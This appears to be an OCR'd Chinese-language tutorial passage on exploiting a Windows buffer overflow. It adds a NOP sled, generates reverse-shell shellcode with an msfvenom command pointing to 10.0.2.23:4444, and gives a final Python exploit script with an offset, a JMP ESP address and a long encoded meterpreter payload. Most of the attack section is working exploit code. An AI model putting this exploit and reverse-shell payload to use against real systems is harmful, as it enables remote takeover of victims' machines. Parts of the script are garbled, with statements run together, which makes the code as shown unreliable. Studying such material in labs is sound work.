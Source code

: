 # ✅添加 NOPs 和外壳代码注入

**添加 NOPs**

现在，当我们将要跳转到新的 EIP 时，我们的外壳代码将驻留在那里，这将需要一些空间来打开外壳，所以为了安全起见，将添加 NOPs，这基本上意味着没有操作，只是什么也不做(\x90)。我们可以添加一些 8 的倍数的 NOPs(作为 8 位的存储器地址)

`b'\x90'*16`

# **✅生成外壳代码**

我们可以使用 Metasploit 通过以下命令生成外壳代码:

```
msfvenom -p windows/shell/reverse_tcp LHOST=10.0.2.23 LPORT=4444 -b "\x00" -f py -v shellcode
```

我准备用一般的反壳！！

现在只需将这两样东西(NOPs 和 shellcode)添加到我们的缓冲区中

# ✅最终缓冲区溢出脚本:

```
#!/bin/pythonimport sys
import socket
import structdef p32(data):
    return struct.pack('<I',data)# bad_char=b"\x00"offset=2012jmp_esp=p32(0x625014DF)nop_sled=b"\x90"*16buffer= b"A"*offset+b"BBBB"#msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.2.23 LPORT=4444 -b "\x00" -f py -v shellcodeshellcode = b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xc0\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\x92\x4b\x4e"
shellcode += b"\xa0\xc3\x08\xa5\x3a\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\x6e\x03\xcd\x44\x33"
shellcode += b"\xe0\x69\x3a\x92\x4b\x0f\xf1\x82\x58\xf7\x6b"
shellcode += b"\xda\x7a\x9c\xc5\x8b\x83\xf7\x5a\xc4\x03\xc5"
shellcode += b"\xf2\xdb\x40\x2e\x68\xb2\x06\x7f\x69\x8b\x07"
shellcode += b"\x12\x70\xd8\x03\xc5\xd2\x93\x40\x94\xfa\x3e"
shellcode += b"\x77\x2f\xdc\xc1\x24\x85\x7b\x53\x82\x43\xe1"
shellcode += b"\xc2\xc9\x47\xd7\xc0\x03\xc5\xf2\xe3\x83\xe7"
shellcode += b"\x06\xda\x4a\x9e\xe1\x92\x6e\x24\x42\x8a\x40"
shellcode += b"\x4c\xaf\x46\x7a\xa5\x3a\x92\xc0\xce\x28\xc3"
shellcode += b"\x08\xa5\x72\x17\x8b\x3a\xc7\x8b\x09\x75\xb1"
shellcode += b"\xda\x53\x0a\x2b\x83\x28\xf5\x73\x93\x9b\xad"
shellcode += b"\xf6\x8b\xf7\x6c\x7b\x19\x7f\xc6\xed\xf2\xc1"
shellcode += b"\xed\x3b\x44\x03\x7f\x60\x6f\x49\x64\xf3\x9f"
shellcode += b"\x0a\x4f\x61\xfb\xe8\xd0\xcb\xde\x48\x02\x84"
shellcode += b"\xcb\x4d\x9c\xeb\xe7\x93\x16\xe4\x48\x48\x81"
shellcode += b"\x73\x93\x9b\x28\xe1\x48\x04\xed\x7e\x19\x0b"
shellcode += b"\x52\xe9\xc2\xd8\xe4\xb1\x96\xc3\x0f\xf8\x82"
shellcode += b"\x50\xfb\x63\xda\x4a\x9e\xfa\x82\x50\xe4\x63"
shellcode += b"\xd3\x11\x06\x23\x2f\x28\xe4\x68\x6d\xab\x16"
shellcode += b"\xe1\x9a\x52\xed\xb1\x80\xa2\x05\x5f\x3c\xf7"
shellcode += b"\xf8\x73\x2c\x3c\x3d\x92\x9c\x3b\x97\x3a\x92"
shellcode += b"\x0a\x18\xe9\x4a\xee\xed\xbb\x7e\xeb\x4f\xa0"
shellcode += b"\xc3\x41\x2c\xdf\xdb\xf7\x4c\xa0\xd2\x54\xaf"
shellcode += b"\x3a\x90\x5c\x0f\xf4\x8a\x81\x41\x76\x1b\xba"
shellcode += b"\x0f\x1a\x8f\x7f\x83\x3d\x6d\x9e\x02\x29\x29"
shellcode += b"\x60\xa4\x3b\x92\x4b\x17\xe1\x79\x21\x25\x51"
shellcode += b"\x92\xb4\x9b\xca\xc9\x49\xfb\x6a\xc2\x06\x7f"
shellcode += b"\x69\x8e\x39\x65\x72\x6d\x8b\x06\x29\x01\x40"
shellcode += b"\x5a\xfa\xda\xc2\x8f\xe1\x79\xe2\xaa\xe5\x72"
shellcode += b"\xb4\x9b\xe8\x4a\xcf\xcf\x2a\xd3\x13\x02\x29"
shellcode += b"\x21\x40\x2c\xc3\xd3\xf1\xd7\x05\xb7\x69\x5a"
```